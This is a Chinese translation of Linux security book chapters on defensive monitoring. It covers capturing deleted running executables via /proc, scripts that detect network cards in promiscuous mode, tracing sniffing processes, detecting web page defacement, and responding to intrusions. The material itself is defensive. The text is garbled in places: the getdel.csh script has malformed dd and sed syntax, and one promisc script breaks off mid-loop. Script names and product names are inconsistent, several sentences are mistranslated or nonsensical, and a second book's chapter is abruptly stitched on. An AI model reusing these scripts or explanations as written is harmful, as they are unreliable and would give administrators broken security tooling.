内核中一个非常有用的功能是，这个`/proc`中的符号链接对于读取有效，即使原始文件已被删除！ 这使得你可以简单地制作文件副本用于分析：

```
cp /proc/519/exe /home/samspade/del_cracker
```

你可以通过以下脚本自动制作这些副本，我称之为`getdel.csh`；它在 CD-ROM 上。 它使用`dd`而不是`cp`，只是因为`dd`不太为人所知，可能被破解者利用。


```
#!/bin/csh -f
# Detect and copy running executables from deleted disk.
# DANGER: this program must run as root to capture all
# data but if it finds something root *may* be compromised.
#
# Optionally kills the program.
# Requires kernel 2.2 or newer.
#
# Copyright 2001 Bob Toxen. All rights reserved.
# This program may be used under the terms of the
# GNU GENERAL PUBLIC LICENSE Version 2.
#
# Offered as is with no warranty of any kind.
set savdir=/sampsade/delexe_dir
set emailaddr=sampsade@pentacorp.com
set g='$(deleted)'
set s='s;./proc/([0-9][0-9]*\).*,\1'
set p='$(file /proc/[0-9]*/exe|grep "$g"|sed "$s")'
umask 077
foreach i ( $p )
if ( ! -f $savdir/$i ) then
techo /bin/dd if=/proc/$i/exe=$savdir/$i
echo /bin/dd if=/proc/$i/exe=$savdir | i |
/bin/mail -s 'DEL' $emailaddr
/bin/dd if=/proc/$i/exe=$savdir/$i >& /dev/null
/bin/ls -1 /proc/$i/exe >$savdir/$ls
# Uncomment next line to kill it automatically
/bin/kill -9 $i
else
echo already captured /proc/$i/exe
endif
end
```

# 8.21 检测混杂模式网卡

此处呈现的简单脚本将检测系统网卡（有时称为 NIC 或以太网卡）的混杂模式。另一种方法是在 `/etc/syslog.conf` 中添加适当的条目，以记录网卡驱动程序在卡进入混杂模式时生成的内核消息，监视此内核消息的适当日志，并在发生这种情况时通过电子邮件和寻呼机通知你。有关消息和按驱动程序划分的详细信息，请参见第 581 页“混杂模式内核消息”；有关如何安排电子邮件和寻呼机通知的详细信息，请参见第 358 页“呼叫系统管理员：破解进展！”

以下 `csh` 脚本，称为 `promisc`，每小时扫描 `eth0` 和 `eth1` 卡，如果卡处于混杂模式则生成电子邮件。`eth0` 可以从任何 shell 使用。稍后将描述 `promisc` 脚本。

```
#!/bin/csh -f
set devs=(eth0 eth1)
loop:
foreach i ( $devs
```

## bash 版本

对于偏好 `bash` 的用户，提供以下脚本：

```bash
#!/bin/bash
while true
do
  for i in eth0 eth1
  do
    if ifconfig $i | grep PROMIS > /dev/null
    then
      (echo "$i Promisc"; fpromisc) 2>&1 | Mail -s PROMISCUOUS \
      sysadmin sysadmin@homesys.com
    fi
  done
  sleep 1800
done
```

## Perl 版本

下面是一个名为 `promisc` 的 Perl 脚本，它一次性扫描系统的所有网络接口，如果存在任何处于混杂模式（Promiscuous）的网卡，则生成电子邮件：

```perl
#!/usr/bin/perl
#
# promisc
#
# Parse the "ifconfig" data and email
# the admins if any cards are Promiscuous
#

my $ifconfig = "/sbin/ifconfig";
my $recips = "sysadmin sysadmin@homesys.com";

my %PROMISC = ();
my $interface = "";

open(IFCONFIG, "$ifconfig")
|| die("ERROR: cannot run ifconfig!");

while (<IFCONFIG>)
{
  $interface = $1 if m/^(\S+)/;
  $PROMISC{$interface} = 1 if m/promisc/i;
}
close(IFCONFIG);

if ( %PROMISC )
{
  open(MAIL, "| Mail -s 'Promiscuous mode' $recips")
  || die("ERROR: cannot send mail!");

  print MAIL "Interfaces in Promiscuous mode: ",
  join(", ", sort keys %PROMISC), "\n";

  close MAIL;
}
```

请注意，在 Red Hat 系统中，`ifconfig` 无法正确指示以太网网卡是否处于混杂模式。我怀疑这是内核的问题，而不是 `ifconfig` 程序本身的问题。之所以这样推测，是因为我编译了一个名为 `cpm`（位于 CD-ROM 上）的简化版 `ifconfig`，用于检测混杂模式，结果它也失败了，尽管理论上它应该在任何 Linux 和 UNIX 平台上都能正常工作。这种无法检测混杂模式的问题在 Mandrake 和 Slackware 中并不存在。显然，Red Hat 管理员需要对此问题进行调查。你肯定希望阻止任何非法的包嗅探行为！

请注意，此脚本可能仅被视为开发的起点。你可能希望通过 `cron` 定期调用类似的脚本，或者从网站获取 `cpm` 的源代码并根据需要进行调整。调用该脚本或 `cpm` 并不需要你拥有 `root` 权限。该脚本是从随附 CD-ROM 复制而来的，可以放入 `promis` 文件中：

```bash
chmod 755 promis
```

或者

```bash
chmod 700 promis
```

然后将其复制到你的 `$HOME/bin` 目录，或者复制到系统的本地 bin 目录，即 `/usr/local/bin`。

## Bourne shell 示例

或者，以下代码行适用于 Steve Bourne 开发的 shell（包括 `bash`），尽管这个例子没有定期循环重新检查所有网络网卡。它会测试多个网络网卡。如果将这些语句合并为一行，用分号分隔，这将是一个很好的补充，可以添加到系统管理员的 `crontab` 中以供 `cron` 定期调用。

```bash
if [ "$(ifconfig eth0 | grep PROMISC | wc -l)" -eq 1 ]
then
  echo "eth0 Promiscuous" | Mail -s PROMISCUOUS \
  sysadmin admin@homesys.com
fi
```

这个第二个示例仅检查 `eth0` 是否处于混杂模式。如果系统拥有多张以太网网卡，那么它们当然会被顺序编号，并且每张网卡可以单独设置混杂标志。因此，对于第二张网卡，你需要检查其状态。第三张以太网网卡的接口名称将是 `eth2`。

`PPP` 代表点对点协议（Point-to-Point Protocol），几乎总是用于计算机之间通过串行线路进行通信，通常使用一对调制解调器。因为每台计算机只发送指向另一台计算机的数据（可能是为了访问其背后的网络），所以它只是一个由两台计算机组成的网络段。

由于 `PPP` “网络”上只有两台计算机，每台计算机都会接收网络上所有未由它自己发送的数据。它不会变得比混杂模式更敏感，也不会变得不如混杂模式敏感。因此，在 `PPP` 上不存在需要开启或使用的混杂模式。令牌环网对混杂模式的支持与以太网类似。与某些版本的 Linux 不同，现代 Linux 系统允许多个进程同时使用处于混杂模式的套接字接收所有网络数据包。这防止了你启动一个进程将网卡置于混杂模式从而阻止其他人这样做。

将网络接口置于混杂模式通常是为了嗅探网络中未发送给本系统的数据包。`TFN2000` 在技术上可能没有这样做，但效果是一样的。`LPoft Heavy Industries` 开创了一种名为 `AntiSniff` 的技术，并提供了一个执行此操作的工具。它允许你检测网络上其他将网络接口卡置于混杂模式的系统。`AntiSniff` 基于这样一个原理：大多数操作系统在混杂模式下会有略微不同的行为。例如，某些系统在混杂模式下会响应访问其他系统服务时的请求。


几乎所有处于混杂模式的盒子都可以通过向随机地址发送大量垃圾数据包，然后向疑似处于混杂模式的盒子发送一个数据包来检测出来。这个数据包应被保证能产生回复。因为处于混杂模式的盒子必须在软件中处理这些垃圾数据包，所以在“处理到”指向它的数据包之前会有延迟。一个正常的盒子（即不处于混杂模式）中的以太网网卡硬件会实时忽略这些垃圾数据包，因此没有延迟。响应时间的差异表明了混杂模式的存在；你甚至不需要 `root` 权限来启动这种反嗅探功能。另请参阅第 575 页的“分布式拒绝服务（协调）攻击”。

## 8.21.1 LPoft AntiSniff

`LPoft Heavy Industries` 提供了一款 `AntiSniff` 程序，它用于嗅探黑客正在使用的嗅探器以监控你的网络。他们发明了自己使用的技术，相当巧妙。其技术原理在第 393 页的“检测处于混杂模式的网络接口卡”中解释。欲了解更多信息，请访问

`www.lpoft.com/antisniff/`

## 8.22 查找处于混杂模式的进程

虽然你可以通过向 `ifconfig` 提供 `/proc` 参数并禁用混杂模式：

```bash
ifconfig eth0 -promisc
```

但这会让攻击者警觉，从而使他们能够掩盖踪迹并消失。相反，推荐采用以下方法。一旦你发现某个以太网网卡（网络接口）处于混杂模式，接下来的事项是确定是谁将其置于混杂模式以及谁在监听所有网络活动。我不知道有什么简单的方法来确定这一点，因此对于以下脚本，我们遵循夏洛克·福尔摩斯的推理方法。你将排除系统中所有不可能处于混杂模式监听的进程。

我创建的用于执行此操作的脚本位于 CD-ROM 上，称为 `fprom`（用于查找处于混杂模式的进程）。它利用 Linux 出色的 `/proc` 伪文件系统来分析系统中每个正在运行的进程，查找打开的套接字，并排除使用 TCP、UDP 或 UNIX 协议的打开套接字。任何剩余的套接字（以及因此使用它们的剩余进程）显然正在使用不同的协议，这可能是原始数据包模式。原始数据包模式常用于嗅探。

请注意，即使你的系统存在导致 `ifconfig` 无法指示以太网网卡是否处于混杂模式的 bug，`fpromisc` 仍会将实际上确实将以太网网卡置于混杂模式的进程列为可疑进程。

这些剩余的进程可能以混杂模式出现，表现为那些无辜进程之一，并且通常是 Netscape 的子进程，例如像 Adobe Acrobat 的 `acreload` 这样的查看器，也可能出现。`fpromisc` 脚本会调用 `ps` 来显示这些剩余进程。此外，它会列出与每个进程关联的完整可执行文件。通过在系统正常时（即 `ifconfig eth0` 不显示混杂模式）运行 `fpromisc`，你可以了解哪些 inode 程序会被运行。关键是你要将 `fpromisc` 的输出存储在磁盘上并打印出来。当然，`tcpdump` 会像灯塔一样显眼，但一个聪明的攻击者可能会将其重命名，甚至可能将其重命名为 `netscape`。然而，路径名不会说谎。

如果你运行的是 2.2 之前的内核（早于 Red Hat 6.1 或 Mandrake 6.1 或 Slackware 7），那么它列出的将是 inode 号而不是路径名。如果是这种情况，脚本将提供使用 `find` 命令查找与该 inode 关联的路径名的示例。请理解，这种彻底的磁盘搜索仅在 2.2 之前的内核下是必需的，确定路径名可能需要几分钟时间。由于 inode 号仅在给定文件系统中唯一，`find` 命令可能会列出多个文件。


要确定正确的文件，请注意代表该条目的主要和次要设备号，可能是主要：03 次要：01（如果你的根文件系统位于 `/dev/hda`），或者是主要：08 次要：01（如果位于 `/dev/sda1`）。在这种情况下，正确的文件是根文件系统中的那个，例如，其第一个路径名组件不属于已挂载文件系统的文件。请注意，只有当你运行的是 2.2 之前的古老内核时，才需要担心 inode 号和设备的问题。

有关详细操作步骤，请参阅第 466 页的“破解者的运行进程”和第 467 页的“处理破解者进程”。在关闭系统并运行已知正常的 Linux 副本以开始恢复过程之前，你应尝试收集有关正在运行的进程的数据。

## 8.23 自动检测被篡改的网页

现在，你将 Web 服务器保护得比 FBI 和 CIA（他们的网站都曾被入侵）更严密，设置了防火墙，并拥有了扫描日志文件中可疑条目的程序。你做到了吗？已知网站被篡改事件的数字显示在表 8.1 中。这些数字表明这一过程正在迅速增加。2000 年的估算值是我的估算，我非常保守地将 1 月至 4 月的数字乘以 3，这并未考虑到明显增加的趋势。

表 8.1 Web 篡改事件（每年）

| 年份 | 篡改事件* |
| :--- | :--- |
| 1997 | 40 |
| 1998 | 244 |
| 1999 | 3736 |
| 2000 | 4881 (估算) 5822 (实际) |

\* Attrition 组织监控 Web 篡改事件。此表摘录自 `www.attrition.org/mirror/attrition/os.html`

许多大型且知名的网站会被篡改，并且保持这种状态数小时甚至更久，因为没有人注意到这个问题。这是因为大多数网站不监控其网页的更改。破解者喜欢这种宣传效果，而系统管理员（SysAdmins）通常是在早上收到工资（或查看报告）时才发现问题的。一些公司愿意收费来监控你的网站。一个网站建议每小时从另一个系统更新网页。这留下了 59 分钟的窗口期，你将无法得知网站是否已被篡改（被破解）。更糟糕的是，聪明的破解者会注意到页面的修改时间（crazies），并在系统管理员更新页面后的几分钟内篡改页面。如果破解者设法拦截了 Web 服务器上游的通信，这种每小时更新的方案将完全失败，因为被破解的不是服务器本身。

解决方案是自行监控你网站的网页。这听起来比实际容易，小型网站可以在一两个小时内设置好。为了获得最高安全性，建议使用一个完全不同的网络，通过不同的 ISP 来监控系统，以监控该 Web 网站。这是为了检测拦截你网站上游通信的入侵行为。例如，这将检测到 DNS 攻击，其中破解者获取了你的 DNS 信息或了解他们如何攻击你的 ISP。如果你的监控系统在你的防火墙内并使用你的 DNS 服务器，你将无法检测到这些问题。对于中型和大型网站，额外的少量成本值得换取安全。

我创建了 `tcpread.c` 程序来完成读取指定网页的艰难部分。它可以从 CD-ROM 获取。它可以将页面输出到标准输出，以便你制作“参考”快照，或允许你自己进行“diff”（差异比较）以将页面与预期结果进行比较。或者，它自己执行“diff”，如果成功读取并匹配了页面，则返回 0 状态。对于不同的失败情况，它会返回其他退出代码。默认情况下，它从 TCP 端口 80 读取，如果在 60 秒内未完成下载，则会超时并返回错误。它考虑到日期字段的差异，并处理二进制文件，如图像和声音文件。

在简单用法中，它期望提供 Web 服务器的主机名和要下载的页面。这个页面名称是你提供给浏览器的名称，以紧跟在主机名后的斜杠开始。它接受一个可选的第三个参数，用于指定允许下载该条目所需的秒数，而不是默认的 60 秒。如果站点太慢，`tcpread` 将生成一个你可以检测到的错误。这防止了 `tcpread` 挂起。这允许你检测使系统速度降低到不可接受水平的 DoS（拒绝服务）攻击。可选的第四个参数是使用的端口号，而不是标准的 80。

要使用此程序，需要生成一个要监视的文件列表。让我们假设 Apache 文档树的根目录在 Web 服务器上是 `/http/htdocs`，并且 `correct_file` 树的监控根目录是 `watch`。在 Web 服务器上，发出以下命令；不需要 `root` 权限。可以调用脚本 `wwwgenlist`；它位于 CD-ROM 上。

```bash
#!/bin/bash -f
cd /http/htdocs
find . -type d -print | sed 's/^\.//' > $HOME/m_dirs
# Find and strip leading "."
find . -type f -print | sed 's/^\.//' > $HOME/m_files
```

编辑这些文件，删除你不想监控的内容，将这些文件传输到监控系统，将它们放在 `watch` 目录中，并 `cd` 到 `watch`，创建目录树。

```csh
csh
umask 077
foreach i ( `cat m_dirs` )
  echo $i
  mkdir $i
end
exit
```

构建 `tcpwatch` 程序并将其放入你的个人 bin 目录。由于它使得窃取 Web 页面变得太容易，因此不应普遍可用。

```bash
make tcpwatch
mv tcpwatch $HOME/bin/
```

使用名为 `capture` 的脚本创建你的参考文件。我们允许每个文件 120 秒的超时；希望你的网站速度比这快。错误日志将放置在 `capture.log` 中。


```csh
#!/bin/csh -f
umask 077
touch capture.log
foreach i ( `cat m_files` )
  echo $i
  tcpread www.pentacorp.com /$i 120 > ! $i
  if [ $status != 0 ]; then
    echo "== COULD NOT CAPTURE $i"
    tee -a capture.log
  fi
end
echo "===== errors"
cat capture.log
```

以下脚本，名为 `wwwscan`，将扫描静态 Web 页面，如果页面不匹配则发送电子邮件。可以通过使用 `perl`、`sed` 等进行一些解析来处理动态页面的变化，以允许动态部分的差异。为了安全起见，让最重要的页面保持静态可能值得推荐，这样就可以测试精确匹配。可以很容易地修改脚本以呼叫你，或通过 SSH 连接到相应的系统并切换到 SecBack（安全备份）Web 服务器或关机等待修复。这些关机操作仅适用于某些网站，因为短暂的延迟可能会触发此机制。由于该程序对于超时和差异返回不同的错误代码，因此可以控制这些操作。

```csh
#!/bin/csh -f
#
# Copyright 2001 Bob Toxen. All rights reserved.
# This program may be used under the terms of the
# GNU GENERAL PUBLIC LICENSE Version 2.
#
# Offered as is with no warranty of any kind.

set email="admin@pentacorp.com joe@homesys.com"
set tmp="tmp$$"
set host="www.pentacorp.com"
foreach i ( `cat m_files` )
  echo $i
  tcpread $host /$i >$tmp
  set x=$status
  if ( $x != 0 ) then
    if ( $x == 1 ) then
      set subj="diff"
    else
      if ( $x == 4 ) then
        set subj="timeout"
      else
        set subj="unknown"
      endif
    endif
    set bad="$i.bad"
    mv $tmp $bad
    mail -s "WWW ERR: $subj: $bad" $email < $bad
  else
    /bin/rm $tmp
  endif
end
```

可以生成页面：`set block.csh`

监控系统还可以对电子邮件、填写各种表格、执行测试交易等其他组件进行自动化测试。要测试"GET"风格的表单，使用 Netscape 填写并执行表单一次。当结果显示出来时，Netscape 会显示 URL，即 CGI 程序的名称，后跟一个"?"和由"&"分隔的变量。然后你会突出显示这些数据，并将其放入调用 `tcpread` 的脚本中。如果你的内容随时间变化，你需要使用 `perl`、`sed`、`grep` 和 `awk` 的某种组合来过滤掉变化，以实现成功的"diff"。

以下是一个典型的表单 URL。

```
www.cavu.com/cgi-bin/sunset?loctype=ID&loc=JFK&date=today
```

你可以采取更复杂的方法，根据你的查询来监控流量。由于你知道应该产生哪些网络流量，你可以检测带有测试信用卡号的一封电子邮件是否被发送到了某个未知网站。

## 9 入侵检测与响应

你现在已经使用 Linux 和 `iptables` 构建了一个防火墙。这种分层安全措施同时包含了基于网络和基于主机的安全。虽然防火墙为网络和主机都提供了安全保障，但在防火墙机器本身以及网络内的主机上，仍需执行必要的步骤。无论是以文件系统完整性检查、病毒扫描还是监控可疑网络活动的形式，这些过程都有助于确保你的数据安全。

本章探讨的是主机网络安全和入侵检测。本章的目标是高层次地概述一些概念，以便你可以对特定感兴趣领域进行深入研究。本章将范围从防火墙机器扩展到整个网络的安全，并为网络中的单个计算机提供建议。

你知道自己何时被成功攻击了吗？这个问题长期以来一直困扰着管理员和入侵分析师。用于检测成功攻击的方法曾经远不止科学范畴。幸运的是，如今出现了各种工具，使入侵检测变得远不止科学。

话虽如此，入侵检测的主要工具仍然是一个人类，他们能够从多个来源收集数据，并对数据的含义做出明智且有据可循的决策。当前的工具非常复杂，可以执行部分相关性分析，但入侵分析师的真正价值体现在他们评估情况并提出可能原因和影响的能力上。

无论是否使用工具，确定是否发生了成功攻击都由入侵分析师负责。在某种程度上，入侵检测只是由工具辅助，而非由工具驱动。仍然需要人来对数据进行关联。

很多时候，只有在报告服务中断时才会检测到攻击。因此，使用 `Nagios` 等软件包主动监控服务至关重要。通过尽可能主动地监控尽可能多的服务，你可以快速发现需要进一步调查的异常情况。

如果你运行 Web 服务器，除了监控服务器是否正在监听（通常在 TCP 端口 80）外，你还应该监控一个或多个 Web 页面上的特定文本。如果你只监控服务器的状态及其是否正在监听，就无法发现网站被篡改的情况。本质上，你应该监控特定服务的行为，以确保它们按预期运行，而不仅仅是确保它们正在运行。

监控磁盘空间、内存使用率和平均负载等资源也很重要。监控这些资源可以指示是否有进程失控并消耗了过多资源（例如，编写不良的漏洞利用程序可能会导致这种情况）。此外，监控磁盘空间也是有用的措施。如果你通常使用 25% 的磁盘空间，而磁盘使用率突然跳到 85%，你需要进行调查，以查看攻击者是否正在将服务器用作文件的投放点。

尽可能多地、尽可能频繁地执行基本服务监控，将有助于提供异常的早期警告。监控服务也有助于提高服务的可靠性，暂且不提所有安全考虑因素。然而，监控不应取代 `Snort` 等入侵检测工具，也不应取代通过深入策略实施的良好安全策略。

在注意到异常后，无论是通过常规服务监控还是通过其他方式，调查异常都是你的责任。你的调查应遵循现有的安全策略。最初的响应之一可能是确定是否确实发生了入侵。平均负载突然激增或磁盘使用率增加可能有多种原因，因此你不应该仅因为服务中断警报就假设发生了攻击。

确定服务中断的根本原因是一项艰巨的任务，通常以重启服务或执行类似的常规操作来解决中断而告终。然而，寻找此类中断的根本原因非常重要，以确保攻击正在进行中或攻击尚未发生。正是在这个领域，即事件相关性分析中，人类最为必要。例如，磁盘分区空间耗尽是因为攻击者在使用空间，还是因为日志文件填满了分区？

### 9.2 表明系统可能被入侵的症状

通常，成功的攻击者会更成功地隐藏他们的踪迹，因此简单的服务监控将无济于事。攻击者在隐藏踪迹方面可能比你在追踪异常系统状态方面更擅长。

Linux 系统过于多样化、可定制且复杂，无法定义一份严谨、全面且确定性的症状清单来证明系统已受入侵。与任何侦探或诊断工作一样，你必须尽可能系统地在可行之处寻找线索。RFC 2196《站点安全手册》提供了一份需要检查的迹象清单。CERT 提供的《恢复 UNIX 或 NT 系统入侵的步骤》（可从 `http://www.cert.org/tech_tips/root_compromise.html` 获取）提供了另一份需要检查的异常清单。

以下章节结合了两份清单，以某种形式包含了其中所有或大部分要点。这些异常大致归类为：与系统日志相关的迹象；系统配置的变化；与文件系统、文件内容、文件访问权限和文件大小相关的变化；用户账户、密码和用户访问权限的变化；安全审计报告中显示的问题；以及意外的性能下降。异常迹象常常跨越类别边界。

#### 9.2.1 系统日志迹象

系统日志迹象包括日志中不寻常的错误和状态信息、被截断的日志文件、被删除的日志文件以及通过电子邮件发送的状态报告：

- **系统日志文件**——系统日志文件中无法解释的条目、日志文件缩小以及日志文件缺失都表明存在问题。例如，在大多数 Linux 系统中，`/var/log/messages` 包含大部分系统日志信息。如果该日志文件大小为零或缺少大部分内容，则需要进行进一步调查。
- **系统守护进程状态报告**——除了写入日志文件（或作为补充）外，`crond` 等一些守护进程会通过电子邮件发送状态报告。异常或报告缺失表明存在问题。
- **异常的控制台和终端消息**——登录会话期间无法解释的消息，可能是为了宣告黑客的存在，显然是可疑的。
- **重复的访问尝试**——通过 `FTP` 或 Web 服务器进行的持续登录尝试或非法文件访问尝试，特别是试图篡改 `CGI` 脚本的尝试，即使这些尝试似乎以重复失败告终，只要它们是持续的，就是可疑的。

第 10 章《入侵检测工具》详细介绍了一些自动日志监控程序，这些程序在发出警报或实时采取其他行动时可能会有所帮助。

#### 9.2.2 系统配置迹象


系统配置迹象包括被修改的配置文件和系统脚本、无法解释地运行的非预期进程、意外的服务端口使用和分配，以及网络设备运行状态的变化：

- `cron` 作业——检查 `cron` 配置脚本和可执行文件是否被修改。
- 更改的系统配置文件——通过手动或使用工具进行文件系统完整性检查，可以指示 `/etc` 目录下配置文件的变更。这些文件对系统的正常运行至关重要。对文件（如 `/etc/` 目录下的文件）的任何更改……以及类似文件）的检查至关重要。
- 由 `ps` 显示出的无法解释的服务和进程——意外运行的程序是不好的征兆。请注意，作为攻击的一部分，`ps` 命令本身可能已被替换。稍后会有详细说明。
- 由 `netstat` 或 `tcpdump` 显示出的意外连接和意外端口使用——意外的网络流量是非常不好的征兆。
- 系统崩溃和进程丢失——系统崩溃以及意外的服务器崩溃都可能是可疑的。系统崩溃还可能暗示攻击者发起的系统重启，而这可能是为了在将关键系统进程替换为木马版本后重新启动这些进程所必需的。
- 设备配置变更——将网络接口重新配置为混杂模式或调试模式是安装了数据包嗅探器的迹象。

### 9.2.3 文件系统迹象

文件系统迹象包括新文件和目录、丢失的文件和目录、被修改的文件内容、MD5sum 不匹配、新的 `setuid` 程序，以及快速增长或溢出的文件系统：

- 新文件和目录——除了突然具有不良数字签名的文件外，您可能会发现新的文件和目录。特别可疑的是以多个点开头的文件名，以及出现在不寻常位置但听起来合法的文件名。
- `setuid` 和 `setgid` 程序——新的 `setuid` 文件和新设置的 `setuid` 文件是开始查找内部问题的一个好起点。
- 丢失的文件——文件丢失，尤其是日志文件丢失，表明存在某种问题。
- 由 `df` 显示出的文件系统大小快速变化——如果机器已被入侵，快速增长的文件系统可能是黑客的监控程序正在生成大量日志文件的迹象。
- 被修改的公共文件归档——检查您的 Web 和 FTP 区域中是否有新文件或修改过的文件。
- `/dev` 中的新文件或目录——CERT 特别警告要检查 `/dev` 中是否存在新的 ASCII 文件或目录；这些通常是木马程序 的配置文件。

### 9.2.4 用户账户迹象

用户账户迹象包括新用户账户、对 `passwd` 文件的更改、用户进程核算报告中的异常活动或缺失的进程核算报告、用户文件的更改——尤其是环境文件——以及账户访问权限的丧失：

- 新建和修改的用户账户——`/etc/passwd` 中的新账户，以及由 `ps` 显示出的在新建或意外的用户 ID 下运行的进程，都是新账户的迹象。突然密码丢失的账户表明该账户是开放的。
- 用户核算记录——异常的用户核算报告、无法解释的登录、缺失或被编辑的日志文件（如 `/var/log/lastlog`、`/var/log/pacct` 或 `/var/log/usracct`），以及不规则的用户活动都是故障的迹象。
- `root` 或用户账户的更改——如果用户的登录环境被修改或损坏到无法访问账户的程度，这是一个严重的迹象。特别令人担心的是用户对 `.rhosts` 和 `.forward` 文件的更改，以及对其 `PATH` 环境变量的更改。
- 账户访问权限丧失——类似于对用户登录环境的更改，故意的访问拒绝可能是通过更改账户密码、删除账户，或者对于普通用户而言，通过更改运行级别到单用户模式来实现的。

### 9.2.5 安全审计工具迹象

安全审计工具迹象包括文件系统完整性不匹配、文件大小变化、文件权限模式位的变化、新的 `setuid` 和 `setgid` 程序、来自 Snort 等入侵检测工具的警报，以及服务监控数据。

哈希签名不匹配的文件可能是新文件、长度或创建/修改日期已更改的文件，以及访问模式已更改的文件。特别令人担心的是新安装的木马程序。被替换的常见目标是 `inetd` 或 `xinetd` 管理的程序，`inetd` 或 `xinetd` 本身，`ls`，`ps`，`netstat`，`ifconfig`，`telnet`，`login`，`su`，`ftp`，`syslogd`，`du`，`df`，`sync`，以及 `libc` 库。

### 9.2.6 系统性能迹象

系统性能迹象包括异常高的平均负载和大量的磁盘访问。

无法解释的糟糕系统性能可能由异常的进程活动、异常高的平均负载、过多的网络流量或大量的文件系统访问引起。

如果您的系统显示出成功被入侵的迹象，不要惊慌。不要重启系统——重要信息可能会丢失。只需将系统物理断开与互联网的连接。

## 9.3 如果系统被入侵该怎么办

CERT 提供的论文《从 UNIX 根权限被入侵中恢复的步骤》（可从 http://www.cert.org/tech_tips/ 获取）、RFC 2196《站点安全手册》以及 SANS 出版物《计算机安全事件处理：一步一步》讨论了在发生成功的安全违规事件时应遵循的程序。这些文档提出了企业、政府办公室或大学可能遵循的更正式的程序。这些程序假设有一部分的备用存储空间用于系统快照，假设有可用的人员来分析诊断安全问题，并讨论了受害站点可能需要发起正式法律行动的情况。

无论异常如何调查，入侵分析师在进行调查时必须小心谨慎。如果攻击者注意到当前有调查人员正在同一系统上四处查看，攻击者更有可能大肆破坏以逃离该系统。如果攻击者认为有人跟随或监视他/她，攻击者可能会开始删除挡路上的一切事物，对相应系统造成实际损害。如果攻击者注意到调查行为，原本可能仅导致网站被篡改的攻击可能会突然变成删除整个分区。

在确定攻击成功或攻击正在进行之后，通常会采取许多应对措施。当然，这将取决于您的安全策略。

如果有可用的存储空间，请对当前状态的整个系统进行快照以便后续分析。如果您无法这样做，至少对 `/var/log` 下的系统日志和 `/etc` 目录下的系统配置文件进行快照。

保留日志。写下所有内容。记录您所做的操作和发现的发现，不仅有助于向响应团队、您的 ISP 或律师报告事件，还有助于保留您已检查内容和待办事项的记录。

如果攻击已经发生或正在进行，首要任务之一通常是停止攻击并防止进一步损害的发生。请记住，注意到同一系统上有调查人员的攻击者更有可能造成附带损害，因此将系统从网络中断开是一种常见建议。拔掉网络电缆后，攻击者就无法造成额外的损害。当然，存在攻击者使用工具监控网络接口，并自动掩盖其踪迹的可能性，一旦该接口状态发生变化。然而，此类攻击目前在野外尚未见诸报道。

查找系统的细微变化是此阶段的一部分。攻击者可能设置了一个 `cron` 作业，以防其守护进程被停止时重新启动它们。此外，攻击者通常会用自己的版本替换常见的 Linux 实用程序（如 `ls` 和 `ps`），以隐藏其进程和文件，这很典型。在这方面，诸如 Chkrootkit 之类的程序对于基于主机的入侵是有帮助的。Chkrootkit 在第 10 章中讨论。

用于减轻损害的工具将由攻击类型决定。例如，针对路由器的拒绝服务攻击必然需要使用不同的步骤来缓解攻击。确定系统是否被入侵的步骤与分析被入侵系统的步骤相同：

1. 检查系统日志，并使用 `netstat` 和 `lsof` 查看哪些进程正在运行以及哪些端口被绑定。检查系统配置文件的内容。通过检查其数字签名来验证所有文件和目录的内容和访问模式。检查新的 `setuid` 程序。将配置和用户文件与干净的备份副本进行比较。

攻击者极有可能用木马程序替换了您正在用来分析系统的系统工具本身。

2. 清点所有易变的信息，例如当前正在运行哪些进程以及哪些端口正在被使用。
3. 通过引导软盘或系统备份副本启动计算机。使用来自未受影响系统的干净工具来检查系统。或者，将磁盘驱动器作为次要驱动器安装在一个未受感染的系统中，并将这些磁盘作为数据进行检查。
4. 确定攻击者是如何成功获得入口的，并确定对你的系统进行了什么操作。
5. 如果可能，从原始 Linux 发行版介质完全重新安装系统。
6. 纠正安全漏洞，可以通过更仔细地选择要运行的服务、更安全地重新配置服务器、在 `xinetd` 或 `tcp_wrappers` 层面以及单个服务器层面定义访问列表、安装包过滤防火墙，或安装应用程序代理服务器来实现。
7. 安装并配置任何系统完整性软件包。
8. 启用所有日志记录。
9. 恢复已知未受污染的用户和特殊配置文件。
10. 为系统二进制文件和静态配置文件创建 MD5 校验和。
11. 重新连接系统到网络，并安装来自你的 Linux 供应商的任何新安全升级。
12. 为新安装的二进制文件创建 MD5 校验和，并将校验和数据库存储在软盘或其他系统上。
13. 监控系统是否有反复出现的非法访问尝试。

## 9.4 事件报告

*事件*可以是多种情况，你需要为自己定义它。例如，事件可以被定义为试图获取或提升权限，或损害一个或多个系统的保密性、完整性或可用性的异常尝试。


习惯性地监控系统日志文件、系统完整性报告和系统会计报告是良好的实践。即使只启用最小日志记录，迟早你会发现某些根据你的安全策略认为足够重要并需要报告的事情。如果启用完整日志记录，你将拥有大量的日志条目，可以全天候（24小时）进行思考和审查。

一些访问尝试比其他尝试更严重。有些可能会比其他事情更让你个人感到烦恼。以下部分首先讨论你为什么要报告事件的理由，并涵盖关于你可能报告哪类事件的考虑因素。这些是个人的决定。如果你选择报告某事，其余部分将重点介绍可用的各种报告组以及你需要向他们提供的信息类型。

### 9.4.1 为什么要报告事件？

即使攻击尝试未成功，你也可能想要报告事件。以下是其中一些原因：

- **为了终止探测**——你的防火墙确保大多数探测保持无害。但如果反复发生，即使无害的探测也很令人烦恼。持续、反复、持续的扫描会填满你的日志文件。根据你在运行的任何日志监控软件中如何定义通知触发器，重复的探测可能会让你不断收到电子邮件通知。然而，在如今似乎无休止的由不知情的宽带用户拥有的机器人发起探测的时代（尤其是那些在美国的用户），对大多数人来说，报告每一个探测都太耗时了。

- **为了帮助保护其他站点**——自动探测和扫描通常是在构建一个大型 IP 地址块中所有易受攻击主机的大数据库。当这些主机被识别为可能对特定利用程序易受攻击时，它们就会成为针对性攻击的目标。当今复杂的分析和破解工具可以在几秒钟内入侵易受攻击的系统并掩盖其踪迹。报告事件可能会在其他人受到伤害之前阻止扫描。

- **为了通知系统或网络管理员**——进行攻击的站点经常是已受感染的系统，托管了已受感染的用户账户，存在配置错误的软件，正在被欺骗，或者有个人捣乱分子。系统管理员通常会对事件报告做出响应。ISP（互联网服务提供商）倾向于在其他客户开始抱怨远程站点已阻止其地址块的访问以及无法与远程站点的朋友或家人交换电子邮件之前，停止其捣乱客户的行为。

- **为了获得攻击的确认**——有时你可能只是想要确认你在日志中看到的是一个问题。有时你可能想要确认远程站点确实是因为配置故障而在无意中泄漏数据包。远程站点通常也乐于获得提示，知道其网络行为并非其本意。

